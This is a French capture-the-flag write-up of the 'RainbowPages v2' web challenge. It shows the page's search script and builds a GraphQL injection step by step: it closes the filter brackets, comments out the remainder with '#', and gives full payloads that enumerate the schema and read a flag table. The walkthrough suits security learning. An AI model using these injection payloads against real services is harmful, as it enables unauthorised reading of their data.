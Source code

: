 # <center>RainbowPages v2</center>


<center>

![](./RB.png)

</center>

On arrive donc sur cette page

![](./RB1.png)

Dont le code source contient le script 

    <script>
		function makeSearch(searchInput) {
			if(searchInput.length == 0) {
				alert("You must provide at least one character!");
				return false;
			}

			var searchValue = btoa(searchInput);
			var bodyForm = new FormData();
			bodyForm.append("search", searchValue);

			fetch("index.php?search="+searchValue, {
				method: "GET"
			}).then(function(response) {
				response.json().then(function(data) {
					data = eval(data);
					data = data['data']['allCooks']['nodes'];
					$("#results thead").show()
					var table = $("#results tbody");
					table.html("")
					$("#empty").hide();
					data.forEach(function(item, index, array){
						table.append("<tr class='table-dark'><td>"+item['firstname']+" "+ item['lastname']+"</td><td>"+item['speciality']+"</td><td>"+(item['price']/100)+"</td></tr>");
					});
					$("#count").html(data.length)
					$("#count").show()
				});
			});
		}
		
		$("#clear-btn").click(function() {
			$("#search").val("");
			$("#results tbody").html("");
			$("#results thead").hide();
			$("#count").hide()
			$("#empty").show();
		})

		$("#search-btn").click(function() {
			var content = $('#search').val();
			makeSearch(content);
		})
	</script>

Vu la requête de la première version du challenge, on peut deviner celle de celui-ci qui devrait ressembler à ```{ allCooks (filter: {or: [{firstname: {like: "%input%"}}, {lastname: {like: "%input%"}}])} { nodes { firstname, lastname, speciality, price}}```

On essaye d'injecter notre requête comme pour le chall précedent pour lister tous les champs l'aide du payload (toujours mis en base 64 par la suite) :

    {
     __schema {
        types {
        name
        }
     }
    }

Mais ...

![](./RB2.png)
Eh oui, ce serait trop facile sinon.<br>
Cette erreur est présente car nous ne sommes simplement pas sorti des champs de la requête, il nous suffit donc de sortir des champs.
<br>Pour sortir des champs il faut refermer tous les '(', '[', '{' ouverts au début pour après injecter notre requête.

```a%"}}]})``` cet input referme tous les champs ouverts, ensuite il faut mettre les nodes pour la cohérence de la requête ```{ nodes { firstname, lastname, speciality, price }}```. Avec ça nous sommes bons, maintenant nous pouvons mettre notre payload, ici ```__schema{types{name}}}```.
<br>
Mais la requête ne va pas marcher si celle-ci comptabilise déjà celle de base :/, c'est pour ça que nous avons juste à mettre un petit '#' à la fin de notre requête, ce qui va faire que tous ce qui se situera après notre payload (sur la même ligne) sera mis en commentaire et ne sera donc pas pris en compte.

Ce qui nous donne comme requête finale :

    a%"}}]}){ nodes { firstname, lastname, speciality, price }} __schema{types{name}}}#


![](./RB3.png)

On arrive à remarquer plusieurs champs intéressants tel que FlagNotTheSameTableName, checkons un peu ce qu'elle contient à l'aide de cette requête :

    a%"}}]}) { nodes { firstname, lastname, speciality, price }}allFlagNotTheSameTableNames{nodes{flagNotTheSameFieldName}}}#

![](./RB4.png)

Ah bah il suffisait de regarder ^^'
